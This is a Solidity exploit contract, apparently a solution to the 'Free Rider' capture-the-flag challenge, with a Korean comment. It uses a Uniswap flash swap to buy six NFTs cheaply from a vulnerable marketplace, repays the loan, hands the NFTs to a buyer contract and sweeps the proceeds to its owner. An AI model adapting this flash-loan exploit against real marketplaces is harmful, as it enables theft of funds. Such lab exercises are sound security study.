 ```solidity
contract AttackerFreeRider is IUniswapV2Callee {

    IUniswapV2Pair public immutable pair;
    FreeRiderNFTMarketplace public immutable marketplace;
    FreeRiderBuyer public immutable partner;
    address payable public  owner;
    IERC721 public immutable nft;
    IWETH public immutable weth;

    uint256[] public tokenIds = [0, 1, 2, 3, 4, 5];

    constructor(address _pair, address _nft, address _marketplace, address _partner, address _weth) {
        pair = IUniswapV2Pair(_pair);
        nft = IERC721(_nft);
        marketplace = FreeRiderNFTMarketplace(payable(_marketplace));
        partner = FreeRiderBuyer(_partner);
        weth = IWETH(_weth);
        owner = payable(msg.sender);
    }

    function attackMarketPlace(uint256 amount) public payable {
        // pair의 swap을 실행시키면 line 33의 uniswapV2Call function 이 실행됨
        pair.swap(amount, 0, address(this), new bytes(1));
    }

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external override {
        
        weth.withdraw(amount0);
        marketplace.buyMany{value: 15 ether}(tokenIds);
        
        weth.deposit{value: 16 ether}();
        weth.transfer(address(pair), uint(16e18));
        
        for(uint256 i=0; i< tokenIds.length; i++) {
            nft.safeTransferFrom(address(this), address(partner), i);
        }

        owner.transfer(address(this).balance);
    }

    function onERC721Received(address, address, uint256 _tokenId, bytes memory) external returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {}

}
```
